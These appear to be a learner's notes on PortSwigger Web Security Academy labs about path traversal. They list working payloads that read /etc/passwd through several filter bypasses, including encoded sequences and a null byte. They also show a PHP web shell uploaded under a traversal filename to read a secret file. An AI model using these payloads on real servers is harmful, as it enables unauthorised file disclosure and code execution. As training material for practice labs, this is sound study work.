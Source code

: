 # 1. Lab: [File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

**vulnerability in the display of product images**

1. go filter settings => filter settings:

```php
Hiding image
GET /image?filename=18.jpg HTTP/2
```

```php
payload: ../../../etc/passwd
```

**change GET /image?filename=74.jpg HTTP/2
to GET /image?filename=../../../etc/passwd HTTP/2**

# 2. Lab: [File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

**The application blocks traversal sequences _but treats the supplied filename as being relative_ to a default working directory.**

```php
payload:
/etc/passwd
```

```php
GET /image?filename=/etc/passwd HTTP/2
```

# 3. Lab: [File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

**The application _strips path traversal sequences_ from the user-supplied filename before using it.**

```
....//....//....//etc/passwd
```

# 4. Lab: [File path traversal, traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

**The application blocks input containing path traversal sequences. It then performs a _URL-decode_ of the input before using it.**

```
payload:
..%252f..%252f..%252fetc/passwd
```

# 5. Lab: [File path traversal, validation of start of path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)

**The application _transmits the full file path via a request_ parameter, and validates that the supplied _path starts_ with the expected folder.**

GET /image?filename=/var/www/images/57.jpg HTTP/2
to GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2\*\*

```
payload:
/var/www/images/../../../etc/passwd
```

# 6. Lab: [File path traversal, validation of file extension with null byte bypass](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)

**null byte bypass**

**The application validates that the supplied _filename ends with the expected_ file extension.**

```
GET /image?filename=56.jpg HTTP/2
GET /image?filename=../../../etc/passwd%00.jpg HTTP/2
```

```
payload:
../../../etc/passwd%00
```

# Lab 7: [Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

This lab contains a vulnerable _image upload function_. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a _secondary vulnerability_.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

```php
upload: <?php echo file_get_contents('/home/carlos/secret'); ?>

```

You can log in to your own account using the following credentials:

```php
"wiener:peter"
```

```php
"pull it out the contents of the file '/home/carlos/secret'"
```

1. **Start:**

create file:

```php
'exploit.php'
```

content:

```php
'<?php echo file_get_contents('/home/carlos/secret'); ?>'
```

2. Go to file location ( right click thumbnail and choose '_open image in new window_')
   (https://0a0800a903188314837dcf4400cd00b1.web-security-academy.net/files/avatars/exploit.php)

Text message: <?php echo file_get_contents('/home/carlos/secret'); ?>
_my file plays as a text file but not as a php file_
explanation:

```
for each file there are solutions like: => drwxr-xr-x

if there is no ending: => x then there is no permission to render the file

send to repeater  /my-account/avatar

go to: =>
```

Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/octet-stream

````
change to: =>

```
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
````

```
payload:
..%2fexploit.php

```

```
/files/avatars/..%2fexploit.php/filesGET
```

in url: =>

```url
https://0a3500d2045ef40681e1026f002c002a.web-security-academy.net/files/exploit.php
```
